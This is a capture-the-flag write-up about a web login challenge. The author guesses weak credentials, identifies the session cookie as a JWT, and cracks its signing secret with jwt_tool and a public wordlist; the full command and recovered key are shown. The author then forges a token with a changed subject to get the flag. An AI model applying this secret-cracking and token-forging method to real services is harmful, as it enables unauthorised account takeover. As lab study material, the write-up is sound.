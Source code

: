  
## Challenge description

![Screenshot_20230725_012008](https://github.com/kiro6/writeups-ctfs/assets/57776872/1fd64962-6d53-4e72-981e-df996630856a)


## first lets explore 

##### we have a login page & sign-in page
![Screenshot_20230725_012126](https://github.com/kiro6/writeups-ctfs/assets/57776872/2451ba4d-7c8b-42ad-a081-52c1263645c8)

##### first thing come to my mind SQLi ,Broken Authentication, Broken Access Control

###### tried SQLi but did not seem that the website is vulnerable to it
###### tried to check if the sign-in and login reveal info about current users or their passwords , i found an admin user  ,  i was about to check password policy and try to brute-force it , but then the admin said no brute-force

##### back to the challenge description `what is 5 minus 4?` , so i tried to login as username=1 and password=1 and it worked !! 

##### lets check the repeater 
![Screenshot_20230725_013210](https://github.com/kiro6/writeups-ctfs/assets/57776872/5d0efc31-53c6-4bce-8e0e-9b8cfdd81868)

##### we have an interesting cookie and it seems to be a jwt token and i was right 
![Screenshot_20230725_013521](https://github.com/kiro6/writeups-ctfs/assets/57776872/20efd9b5-db89-4ba3-8dd2-ddad05bfeae0)

##### back to challenge description `There are some best practices in web development which should strictly followed by the developer!`  so i think maybe it have a weak secret 

##### first i tried to check if the key secret generated by the interval time between `nbf` and `exp` but did not work 

##### then i searched for a list for jwt secrets to brute-force [list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)  and jwt-tool [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```zsh
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIzNzg5NywianRpIjoiYjQ1ZTJlMGYtNzYwZi00ODQ3LTliNTgtYTg0YWYzNjY2YjFiIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MTAsIm5iZiI6MTY  
5MDIzNzg5NywiZXhwIjoxNjkwMjM4Nzk3fQ.3dlek7H56vB7C_lmjGjXDKOSSosCoAO41XWdOkLIurI  -d /path/to/list -C  
  
       \   \        \         \          \                    \    
  \__   |   |  \     |\__    __| \__    __|                    |  
        |   |   \    |      |          |       \         \     |  
        |        \   |      |          |    __  \     __  \    |  
 \      |      _     |      |          |   |     |   |     |   |  
  |     |     / \    |      |          |   |     |   |     |   |  
\        |    /   \   |      |          |\        |\        |   |  
\______/ \__/     \__|   \__|      \__| \______/  \______/ \__|  
Version 2.2.6                \______|             @ticarpi         
  
Original JWT:    
                                                                                                                                                                                                                  
[+] this_is_a_dev_secret is the CORRECT key!  
You can tamper/fuzz the token contents (-T/-I) and sign it using:  
python3 jwt_tool.py [options here] -S hs256 -p "this_is_a_dev_secret"
```

##### we found the secret now we can modify the token , i changed the sub to 1 since it is the challenge name (note i get a new token because the previous one expired )
![Screenshot_20230725_014825](https://github.com/kiro6/writeups-ctfs/assets/57776872/d6f8caf8-9c6c-43d7-9337-b36e7fb643f1)


##### send a request with the new token and we get the flag
![Screenshot_20230725_015206](https://github.com/kiro6/writeups-ctfs/assets/57776872/13b3f236-7438-48fa-8862-a17a7cda390d)

